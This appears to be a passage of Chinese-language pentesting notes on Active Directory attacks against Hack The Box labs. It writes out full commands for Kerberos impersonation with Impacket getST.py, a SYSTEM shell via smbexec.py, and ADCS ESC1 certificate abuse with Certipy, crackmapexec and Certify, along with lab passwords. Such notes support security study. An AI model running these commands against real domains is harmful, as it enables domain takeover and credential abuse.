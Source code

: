 ```powershell
```

获取 Ticket 票据
```bash
└─$ /usr/share/doc/python3-impacket/examples/getST.py support.htb/fakecomputer -dc-ip 10.129.230.181 -impersonate administrator -spn http/dc.support.htb -aesKey BF18C480A45562831DB95D35AA5FE0E0C57E5D7A12D71F6DAB0861386A4AD1C3
```

```bash
export KRB5CCNAME=administrator.ccache
```

- shell 
```bash
└─$ /usr/share/doc/python3-impacket/examples/smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```


### ADCS 易受攻击的模板滥用
枚举:
```bash
certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable [-dc-ip]

PS C:\programdata> .\certify.exe find  （如果所在组拥有修改模板的所有扩展权限，）
```

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- **ES1 Attack**
**0x01** 
```bash
crackmapexec ldap 10.129.228.253 -u ryan.cooper -p NuclearMosquito3 -M adcs
-M adcs 指定了使用 Active Directory 证书服务模块

upload Certify.exe
.\Certify.exe find /vulnerable /currentuser   (枚举易受攻击的证书模板)
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator (利用此漏洞冒充管理员)
```
保存为 cret.pem 文件到 kali 中 
```bash
└─$ openssl pkcs12 -in cret.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx 
Enter Export Password:   (密码设置为空)
Verifying - Enter Export Password:
```
